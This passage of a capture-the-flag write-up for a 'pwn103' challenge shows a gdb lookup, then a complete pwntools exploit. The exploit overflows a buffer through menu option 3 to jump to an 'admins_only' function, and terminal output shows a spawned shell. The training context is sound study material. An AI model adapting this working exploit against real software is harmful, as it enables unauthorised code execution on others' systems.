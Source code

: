```bash
(gdb) p *admins_only
$1 = {<text variable, no debug info>} 0x401554 <admins_only>                                                                                                  
(gdb)   
```
## Exploit development
Since we now have all the information we need to crack this challenge, lets create a python scripts to all the steps for us

```python
#!/usr/bin/env python3
#author: pr0rat

from pwn import *

exe = './pwn103.pwn103'
def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	elif args.LOCAL:
		return process([exe] + argv, *a, **kw)
	else:
		print("Usage: ./exploit.py REMOTE <server> <port>")
		print(" OR ./exploit.py LOCAL")
		exit()

ret_main = p64(0x0000000000401677) #return adress for main, i guess any should work
padding = b'A'*40 + ret_main + p64(0x401554)
p= start()
#remember our buffer overflow is in option 3 of the menu
p.sendline(b'3')
p.recv()
p.sendline(padding)
p.interactive()
```
## Exploitation
With the above script we go further and run it to get a shell on our machine on the remote host or the server hosting the challenge.
> Either locally or remotely by supplying arguments based on where you want to execute it.

```bash
┌──(kali㉿prosec)-[~/hacks/pwn/pwn101/pwn103]
└─$ python3 exploit.py      
Usage: ./exploit.py REMOTE <server> <port>
 OR ./exploit.py LOCAL
```
```bash                                                         
┌──(kali㉿prosec)-[~/hacks/pwn/pwn101/pwn103]
└─$ python3 exploit.py LOCAL
[+] Starting local process './pwn103.pwn103': pid 61213
[*] Switching to interactive mode
Try harder!!! 💪

👮  Admins only:

Welcome admin 😄
$ ls
core  exploit.py  pwn103.pwn103
$  
```
Hooray!! that was the challenge. It was pretty and it provides a good way to start pwning.


